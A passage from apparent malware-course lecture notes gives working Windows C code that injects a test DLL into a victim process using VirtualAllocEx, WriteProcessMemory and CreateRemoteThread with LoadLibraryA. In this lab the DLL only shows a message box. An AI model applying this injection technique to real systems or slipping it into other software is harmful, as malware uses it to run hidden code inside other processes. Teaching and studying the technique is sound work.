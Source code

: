 The above program will inject "test.dll" into "victim.exe". You should see a message box displayed by "test.dll".

### 4.12 Run victim process and inject DLL. (If you have "const char" error, project property>c/c++>language>conformance> set NO to /permissive)

injectDLL2:

```c
#include <windows.h>
#include "stdio.h"

int main(){
   STARTUPINFO si;
   PROCESS_INFORMATION pi;
   ZeroMemory(&si, sizeof(si));
   si.cb=sizeof(si);
   ZeroMemory(&pi, sizeof(pi));

   char * fname=
      "D:\\kim\\LectureNotes\\security\\2019\\malware\\target\\Debug\\target.exe";
   if (!CreateProcess(NULL, fname, NULL,NULL,FALSE,0,NULL,NULL,&si,&pi)){
	   printf("createprocess failed:%d\n", GetLastError());
	   return 0;
   }
   // now pi.hProcess is the handle to the new process, pi.dwProcessId is the pid
   printf("child pid:%d\n", pi.dwProcessId);     // show child's pid

   LPCTSTR szDllName=
     "D:\\kim\\LectureNotes\\security\\2019\\malware\\test\\Debug\\test.dll";
   // step 1. get handle of victim process
   HANDLE hProcess=pi.hProcess;

   // step 2. alloc mem in target's addr space by size of dwBufSize
   DWORD dwBufSize=lstrlen(szDllName)+1;
   LPVOID pRemoteBuf=
      VirtualAllocEx(hProcess,NULL,dwBufSize,MEM_COMMIT,PAGE_READWRITE);
   // step 3. write "dlltest.dll" path into alloc'd mem
   WriteProcessMemory(hProcess,pRemoteBuf,(LPVOID)szDllName,dwBufSize,NULL);
   // step 4. get LoadLibraryA addr
   HMODULE hMod=GetModuleHandle("kernel32.dll");
   LPTHREAD_START_ROUTINE pThreadProc=
      (LPTHREAD_START_ROUTINE)GetProcAddress(hMod,"LoadLibraryA");
   // step 5. run thread
   HANDLE hThread=
      CreateRemoteThread(hProcess,NULL,0,pThreadProc,pRemoteBuf,0,NULL);
   WaitForSingleObject(hThread,INFINITE);
   CloseHandle(hThread);
   CloseHandle(hProcess);
CloseHandle(pi.hThread);

   return TRUE;
}
```
